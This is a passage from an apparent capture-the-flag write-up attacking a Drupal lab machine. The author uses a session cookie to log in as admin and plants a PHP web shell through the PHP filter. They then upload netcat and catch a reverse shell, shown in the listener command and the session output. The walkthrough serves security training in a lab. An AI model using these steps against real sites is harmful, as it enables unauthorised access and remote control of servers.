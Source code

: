 Let’s add the cookie to our browser using the _Cookie Manager_ plugin.

![](https://miro.medium.com/max/733/1*V6AKxYPMdcg0ydwKLk_DLg.png)

Then refresh the page.

![](https://miro.medium.com/max/1421/1*9dkvVuxOYmQuMW9FmCBkhg.png)

We’re logged in as _admin_! Click on the _Modules_ tab and check if the _PHP filter_ is enabled. It is. This means we can add PHP code.

Click on _Add new content_ on the welcome page &gt; click on _Basic page_. In the _Title_ field add the value “_shell_”. In the _Body_ field add the simple PHP shell to upload/execute code from the [following link](https://d47zm3.me/resources/infosec/reverse-shells/). Make sure to include the “_&lt;?php ?&gt;_” tags and change it to the IP address of your attack machine. This gives us the ability to both execute and upload files. In the _Text format_ filed choose the option _PHP code_. Then hit _Save_.

![](https://miro.medium.com/max/1234/1*zuv6awHLBx7lOgmx1ziefw.png)

In my case the entry created is under the path _/node/4_. Let’s test it out.

![](https://miro.medium.com/max/1279/1*DbPTJWah4IJKc_Xj0jzeBw.png)

We have code execution! I can’t seem to use powershell from here, so what we’ll do is upload netcat on the box and then use it to send a reverse shell back to our attack machine.

Run the _systeminfo_ command.

![](https://miro.medium.com/max/1331/1*fEz9TkFIXQ6DsCgx67Lf_Q.png)

It’s a 64-bit operating system. Download the 64-bit executable of netcat from [here](https://eternallybored.org/misc/netcat/). Start up a python server.

```text
python -m SimpleHTTPServer 7777
```

Upload it using the _fupload_ parameter.

![](https://miro.medium.com/max/851/1*ndGVrfi5XLXUpkvyJv02wg.png)

Then set up a listener on the attack machine.

```text
nc -nlvp 1234
```

Use the uploaded netcat executable to send a reverse shell to our attack machine.

![](https://miro.medium.com/max/871/1*txrJaPlUZUXQAEx894ftRQ.png)

We get a shell!

```text
root@kali:~# nc -nlvp 1234
listening on [any] 1234 ...                                                                                                                                             
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.9] 60572                                                                                                               
Microsoft Windows [Version 6.1.7600]                                                                                                                                    
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.                                                                                                         
                                                                                                                                                                        
C:\inetpub\drupal-7.54>whoami                                                                                                                                           
whoami                                                                                                                                                                  
nt authority\iusr
```